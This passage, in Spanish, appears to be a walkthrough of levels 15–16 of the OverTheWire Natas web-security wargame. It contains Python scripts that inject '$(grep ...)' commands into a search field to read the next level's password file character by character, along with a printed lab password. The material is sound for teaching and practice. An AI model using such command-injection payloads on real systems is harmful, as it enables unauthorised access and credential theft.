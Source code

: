```console
[cucuxii@parrot]~[natas]$: python3 natas15.py
PASS: ********************************
PASS: W*******************************
...
PASS: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

## Natas 16

En natas 16 volvemos al command inyection con "grep", pero ahora si que no podemos poenr ningun caracter esepcial de bash salvo "$" o "( )"
Este script de python sirve para probar cosas, como el que hicimos en bash la otra vez.
```python
import requests, re

url = "http://natas16.natas.labs.overthewire.org"
respuesta = None
while respuesta != "salir":
        respuesta = input("$> ")
        r = requests.post(url, auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'), data={"needle": respuesta, "submit":"submit"})
        resp = r.text.replace("\n"," ")
        resp = re.findall(r'<pre> .*? </pre>', resp)[0].split(" ")[1]
        print(resp)
```

Tras investigar se da con la siguiente lógica:
Buscar una palabra concreta, del diccioanrio, para que salga, ejemplo "hackers"

```console
[cucuxii@parrot]~[natas]$: python3 natas16.py                                                                                                             
$> hackers
hackers
```
Concatenarle otro comando, en concreto otro grep al archivo de la contraseña, este grep es solo para una letra, por ejemplo "a", si esta en el
diccionario devolvera una "a" convertiendo a la palabra "hackers" en "ahackers" la cual no existe (respuesta vacia), en cambio si no esta la "a",
no devolvera nada quedandose en "hackers". 

El input seria que "hackers" + "$(grep ^a /etc/natas_webpass/natas17)" O sea otra manera de concatenar comandos sin el ";" 
La respuesta sale entre etiquestas html "pre" y si no hay respuesta "ej, ahackers" da un IndexError al no econtrar elementos, eso sera
nuestro filtrador, el resto de cosas sera identico al script anterior.

```python
import requests, re
from string import *
import pdb

password = ""
chars = ascii_lowercase + ascii_uppercase + digits
url = "http://natas16.natas.labs.overthewire.org"
for i in range(50):   # Numero alto random... hasta que se canse
        for c in chars:
                respuesta = f"hackers$(grep ^{password}{c} /etc/natas_webpass/natas17)"
                r = requests.post(url, auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'), data={"needle": respuesta, "submit":"submit"})
                resp = r.text.replace("\n"," ")
                try:
                        resp = re.findall(r'<pre> (.*?) </pre>', resp)[0].split(" ")
                except IndexError:
                        print ('PASS: ' + password.ljust(32, '*'))
                        password += c
```